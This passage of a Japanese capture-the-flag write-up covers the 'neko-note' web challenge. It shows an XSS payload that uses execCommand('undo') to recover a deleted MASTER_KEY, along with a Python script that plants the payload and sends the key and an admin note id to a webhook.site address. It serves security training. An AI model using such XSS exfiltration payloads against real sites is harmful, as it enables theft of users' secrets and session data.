 ```javascript
        await context.close();
    } catch (e) {
        console.error(e);
    }
```
`MASTER_KEY`を入力後に、XSSでその値を盗まれないように削除しています。この消した値を復元することはできないでしょうか？

調べてみると、どうやら`document.execCommand("undo")`で削除した操作を戻すことが可能みたいです。

というわけで上記のXSSと組み合わせて`MASTER_KEY`を盗めます。また、
```javascript
JSON.parse(localStorage.getItem("neko-note-history"))[0].id
```
からフラグが含まれるノートのidも盗むことで、フラグ奪取が可能になります。

### 攻撃

```python
import httpx

# BASE_URL = "http://localhost:8005"
BASE_URL = "http://neko-note.2023.zer0pts.com:8005"

HOOK_URL = "https://webhook.site/xxx"

client = httpx.Client()


def create_note(title: str, body: str) -> str:
    res = client.put(
        f"{BASE_URL}/api/note/new",
        data={
            "title": title,
            "body": body,
            "password": "x",
        },
    )
    assert res.json()["status"] == "ok"
    return res.json()["id"]


title1 = f"x autofocus onfocus=if(!window.w){{document.execCommand(`undo`);setTimeout(function(){{navigator.sendBeacon(`{HOOK_URL}`,document.querySelector(`input`).value+`/`+JSON.parse(localStorage.getItem(`neko-note-history`))[0].id)}},300)}}"
body1 = "x"
uuid1 = create_note(title1, body1)

title2 = "x"
body2 = f"[{uuid1}]"
uuid2 = create_note(title2, body2)


print(uuid2)
print(f"{BASE_URL}/note/{uuid2}")

# -> ae4eadec-3bc0-4884-8ffb-f997a41d35b3/9bc1a14f-bfea-4715-9540-96179f34567e
# MASTER_KEY = "ae4eadec-3bc0-4884-8ffb-f997a41d35b3"
# ADMIN_UUID = "9bc1a14f-bfea-4715-9540-96179f34567e"
```


[^top-01]: 一方で、ひとりでもくもくと問題に挑んでフラグを取りに行くのも達成感があって気持ちが良いので、どちらが良いかは微妙なところ。
[^warmuprofile-01]: writeupを書いてる途中で気づいたんですが、warmup profileでなくてwarmu**p**rofileだったのか。文字遊び好きです。
[^warmuprofile-02]: [作問者writeup](https://nanimokangaeteinai.hateblo.jp/entry/2023/07/17/141919#Web-137-Warmuprofile-48-solves)によれば、2つセッションつくるのが想定だったみたいです。たしかに。
[^jqi-01]: レスポンス内容の差異がなかったとしてもtime-basedなオラクルはたぶん構成可能です。やりたくなかったので、親切設計でありがたかったです。
[^plain-blog-01]: 歴史的経緯・慣習的なものなので必要という側面もあるかもしれないですが、それはそれとして。